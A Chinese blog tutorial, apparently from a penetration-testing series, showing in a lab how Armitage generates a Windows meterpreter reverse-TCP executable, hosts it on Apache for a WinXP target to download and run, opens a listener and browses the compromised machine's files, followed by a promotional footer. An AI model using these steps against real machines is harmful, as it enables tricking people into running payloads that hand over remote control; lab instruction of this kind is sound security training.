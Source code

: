 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Armitage进行客户端攻击
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 使用Armitage进行客户端攻击
lock: need
---
```


# 使用Armitage进行客户端攻击

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

### 查找攻击载荷 

在Armitage的左上角依次选择payload->windows->meterpreter->reverse_tcp

### 设置攻击载荷

这里，需要双击reverse_tcp，之后，会弹出如下对话框：

![img](https://img-blog.csdnimg.cn/20190128134927500.png)

这里，设置我们的LHOST和LPORT,并将Output设置为exe,最后单击Launch按钮导出生成的exe文件。

![img](https://img-blog.csdnimg.cn/20190128134940195.png)

如下：

![img](https://img-blog.csdnimg.cn/20190128134952345.png)

点击保存按钮，将test.exe保存到/root目录下。

### 移动test.exe到apache目录下

```
mv test.exe /var/www/html/
```

此时，输入如下命令启动apache

```
service apache2 start
```

### 在靶机上下载test.exe

在靶机的浏览器地址栏输入：http://192.168.175.128/test.exe下载test.exe文件

![img](https://img-blog.csdnimg.cn/20190128135053701.png)

### 创建监听器

依次单击Armitage->Listeners->Reverse选项：

![img](https://img-blog.csdnimg.cn/20190128135110183.png)

点击后弹出一个对话框，如下：

![img](https://img-blog.csdnimg.cn/2019012813512652.png)

这里，我们将端口设置为8888,将类型设置为meterpreter，然后点击Start Listener

效果如下图：

![img](https://img-blog.csdnimg.cn/2019012813514745.png)

### 运行exe文件

在靶机上双击test.exe

![img](https://img-blog.csdnimg.cn/20190128135206863.png)

### 查看结果

此时，切换到Armitage，我们在输出日志中看到打开了一个Meterpreter session,如下图：

![img](https://img-blog.csdnimg.cn/20190128135222423.png)

同时，可以看到靶机图标有红色闪电包围，说明我们成功拿下了靶机的Meterpreter。

### 查看靶机的目录结构

右键靶机图标->Meterpreter->Explore->Browse Files

![img](https://img-blog.csdnimg.cn/20190128135255860.png)

如下图所示：

![img](https://img-blog.csdnimg.cn/20190128135310495.png)

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
